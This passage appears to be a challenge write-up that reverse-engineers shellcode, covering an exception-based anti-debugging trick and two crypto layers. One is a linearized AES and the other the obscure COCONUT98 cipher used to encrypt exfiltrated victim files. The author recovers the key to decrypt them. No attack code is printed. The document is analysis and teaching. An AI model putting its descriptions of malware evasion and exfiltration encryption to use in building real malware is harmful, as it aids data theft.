

VirtualAlloc() and first crypto
-------------------------------
There seems to be some tricky memory things going on: the shellcode calls ```VirtualAlloc``` then triggers an exception. This really impaired the dynamic analysis process because this old version of OllyDBG cannot trace SEH in the kernel:


Googling the 4 lookup tables revealed that the huge crypto blob is a linearized AES. It represents a good 80% of all the shellcode and is actually so big that there's no way I can reproduce it in picture.

Doing dynamic analysis over the course of days, it seemed to be fully predictable and always generated the same output buffer so I just ignored it.

I'm sure there are some pretty clever tricks here, but I wasn't able to follow the SEH in OllyDBG when it leaves userspace and I'm not experienced enough to do it statically. Here's a reason to read other writeups ;)


Second crypto
-------------
The second crypto blob is the interesting one as it's the one used over all files read from the victim's filesystem and uses a fixed key derived from the earlier AES blob.


In order to identify the algorithm, I once again googled its lookup table. Only a few results yelded a very obscure algorithm: [COCONUT98](https://books.google.fr/books?id=i1MDsloDRs4C&pg=PA270&lpg=PA270&dq=6abf71&source=bl&ots=BOleGHBl7X&sig=ACfU3U06Z3U9RtL-BCuVPldAfKdn3gluUw&hl=en&sa=X&ved=2ahUKEwjM2dDQkObpAhWRCOwKHck4DmwQ6AEwD3oECAoQAQ#v=onepage&q=6abf71&f=false).

It's a Feistel network but a rather strange one at that: the decryption key is not the encryption key, which usually is the case for Feistel networks! Feistels are really cool algorithms, they're using one-way hash functions at their core, but yet are easily inverted thanks to the clever mathematics of xor ladders used.


But in our case the key has to be inverted for it to all work:


I followed the paper's instructions to have a decryption program, which you'll find here in full: [encrypt/decrypt with COCONUT98](https://gist.github.com/gquere/930d2f15b9a1efab0ac5a06744df5e41). Note that I've had to patch the pyfinite library to add the necessary field.

A simple breakpoint placed at the start of the algorithm enabled me to recover the key that had been generated by the AES crypto portion of the shellcode:


Let's plug this key in the algorithm and voilà: we've recovered the victim's exfiltrated files!
